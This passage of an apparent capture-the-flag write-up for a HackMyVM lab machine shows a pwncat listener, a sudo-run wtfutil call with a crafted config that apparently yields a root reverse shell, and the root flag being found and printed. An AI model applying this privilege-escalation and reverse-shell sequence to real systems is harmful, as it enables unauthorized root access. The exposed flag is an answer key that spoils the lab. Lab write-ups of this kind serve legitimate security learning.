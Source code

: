 ![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`pwncat-cs -lp 4444`:
```
[13:13:13] Welcome to pwncat 🐈!
bound to 0.0.0.0:4444 ←
```

![Victim: lion](https://img.shields.io/badge/Victim-lion-64b5f6?logo=linux&logoColor=white)

`sudo /bin/wtfutil --config=./fake_config.yml`

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

```
[13:21:45] received connection from 192.168.56.139:45604 ←
[13:21:46] 192.168.56.139:45604: registered new host w/ db
```

![Victim: root](https://img.shields.io/badge/Victim-root-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
root ←
```

`id`:
```
uid=0(root) gid=0(root) groups=0(root) ←
```

`cd /root`

`ls -alps`:
```
total 36
4 drwx------  5 root root 4096 oct 11 13:21 ./
4 drwxr-xr-x 18 root root 4096 ago  3  2022 ../
0 lrwxrwxrwx  1 root root    9 ago  3  2022 .bash_history -> /dev/null
4 -rw-r--r--  1 root root  571 abr 10  2021 .bashrc
4 drwxr-xr-x  3 root root 4096 oct 11 13:21 .config/
4 drwxr-xr-x  3 root root 4096 ago  3  2022 .local/
4 -rw-------  1 root root 1967 ago  3  2022 .mysql_history
4 -rw-r--r--  1 root root  161 jul  9  2019 .profile
4 drwx------  2 root root 4096 ago  3  2022 .ssh/
4 -rw-r--r--  1 root root  165 ago  3  2022 .wget-hsts
```

`find / -iname "root*" 2> /dev/null`:
```
[...]

/var/opt/root.txt ←

[...]
```

`cat /var/opt/root.txt`:
```
mZxbPCjEQYOqkNCuyIuTHMV ←
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
